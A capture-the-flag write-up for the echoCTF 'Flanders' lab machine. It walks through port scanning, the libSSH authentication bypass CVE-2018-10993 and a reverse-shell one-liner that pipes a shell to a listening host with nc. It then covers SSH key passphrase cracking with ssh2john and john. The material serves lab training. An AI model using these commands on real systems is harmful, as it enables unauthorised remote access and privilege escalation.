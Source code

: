 ```yaml
---
layout: post
title: Flanders
feature-img: "assets/img/portfolio/flanders.png"
img: "assets/img/portfolio/flanders.png"
date: 11 Jun 2021
tags: [CVE, libSSH, ID_RSA]
---
```



[Flanders](https://echoctf.red/target/13)


machine description:

Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is Okily Dokily

Catch phrase sounds like a pass phrase, only without space

---

### Enumartion


```
nmap -sC -sV -p- 10.0.40.0

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-10 20:10 EST
Nmap scan report for 10.0.100.34
Host is up (0.12s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION

6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
ssh-hostkey: 
2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

```

### vulnerability

CVE-2018-10993 libSSH authentication bypass exploit

The libSSH library has flawed authentication/connection state-machine.
Upon receiving from connecting client the MSG_USERAUTH_SUCCESS Message
(as described in RFC4252, sec. 5.1.) which is an authentication response message
that should be returned by the server itself (not accepted from client)
the libSSH switches to successful post-authentication state. In such state,
it impersonates connecting client as server's root user and begins executing
delivered commands. 
This results in opening an authenticated remote-access channel
without any authentication attempts (authentication bypass).


### Exploit 

from hint i understood it server side include.

[CVE-2018-10993](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)


```

python3 cve-2018-10993.py  10.0.100.34  -p 6022 -c 'whoami' 

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
ETSCTF
Socket exception: Bad file descriptor (9)


next i opend revershell 

python3 cve-2018-10993.py  10.0.40.0 -p 6022 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f'

$ whoami
ETSCTF
$ 




```

we logged in as user  ETSCTF




### Privilege escalation


```


ls -la
total 20
drwxr-xr-x 1 ETSCTF root     4096 May 18 07:11 .
drwxr-xr-x 1 ETSCTF www-data 4096 Nov 11  2019 ..
-rw-r--r-- 1 ETSCTF www-data  222 May 18 07:11 known_hosts
-rw------- 1 ETSCTF root     1766 Nov 11  2019 mykey
-rw------- 1 ETSCTF root      399 Nov 11  2019 mykey.pub

```

mykey is owned by root. 


next we can see thet machine is listen - 127.0.0.1:22 --- ssh port 
```


ssh -p 22 -i ~/.ssh/mykey root@127.0.0.1

and i got password for this key :(

there two options to solve this:

1. enumration  -- found the pass from clues in machine description (OkilyDokily)
2. ssh2john 


using ssh2john

python ~/tools/ssh2john.py key > new_key 

and then brutfouce the new_key

$ john new_key

```

